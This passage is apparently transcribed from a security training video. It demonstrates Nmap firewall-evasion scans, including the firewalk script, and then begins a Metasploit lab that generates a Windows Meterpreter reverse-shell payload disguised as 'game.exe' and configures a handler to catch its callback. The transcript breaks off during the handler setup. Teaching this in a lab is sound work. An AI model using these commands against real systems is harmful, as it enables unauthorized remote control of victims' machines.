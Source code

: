 Okay. The last thing we're going to try is to use the Firewalk script with Nmap. This script is really cool. It tries to figure out the firewall rules by using an IP time to live expiration technique. Basically, the scanner sends a probe located beyond the firewall, one TTL past the gateway. The hope is that the gateway will forward it on. If it is forwarded, then we can expect some sort of results. If it is not, it gets dropped, and we don't get a response. There's no guarantee that it will work, but it's fun to try. So, let's give it a try. The command is ‘nmap –script=firewalk 10.10.10.1'. Press Enter. And, once again, we're pretty much getting the same results. So, as a security analyst, I would be able to confirm that this firewall is probably doing its job and keeping unauthorized traffic out.

Summary 04:55-05:22
That's it for this demo. In this demo, we discussed some of the ways to use Nmap to bypass a firewall or IPS. First, we used some common Nmap scanning techniques to see if we could get past the firewall. Then we demonstrated how to use a decoy scan to hide our IP among several other IPs. We ended by discussing the term Firewalking and using the Nmap Firewalk script to scan a firewall.

### 5.2.9 Bypass Windows Firewall with Metasploit

Click one of the buttons to take you to that part of the video.

Bypass Windows Firewall with Metasploit 00:00-00:17
As hacking attempts increase, developers put up greater and greater defenses to prevent attacks. Windows Firewall is one of these defenses; but it's not perfect. In this demo, we're going to look at bypassing the Windows Firewall to create a remote session.

Turn on Windows Firewall 00:17-00:35
I'm going to start out by verifying that my Windows Firewall is turned on. I'll come down to my search bar and type in 'firewall'. And up here, at the top of the list, we have my Windows Defender Firewall. It looks like the firewall for public networks is turned off, so I'll turn that back on and close this window. Now I'll go over to Kali Linux.

Start a Meterpreter Session 00:35-02:47
Okay. I'm on Kali Linux, and I have a terminal open. Now we have a command to type in. I'll explain it when I'm done. Let's type 'msfvenom -p windows/meterpreter/reverse_tcp LHOST 10.10.10.197 LPORT 4444 -f exe game.exe' and press Enter.

MSFvenom is a combination of MSFpayload and MSFencode. These tools are used to generate payloads in various formats and encode them using various encoder modules.

-p specifies the payload to be used. We're specifying that we're doing a reverse TCP connection.

We have our LHOST IP to receive a back connection. We've used this system's IP.

-f specifies that the file type is an exe file, and it's going to be named game.exe.

Now we need to start Metasploit. We'll start by getting the database running. Do that by typing 'service postgresql start' and press Enter. Now type in 'msfconsole' to start Metasploit and press Enter. Metasploit starts up, and I'll type in 'clear' to clean up the screen.

I'm going go type in 'use exploit/multi/handler' and press Enter. A handler is used with Metasploit when you're executing a back door in a victim's machine and you need to connect to take control.

Now we need to set our payload. I'll type 'set payload windows/meterpreter/reverse_tcp' and press Enter.

I need to set this to my local IP address, so I'll type 'set LHOST 10.10.10.197'. Press Enter.
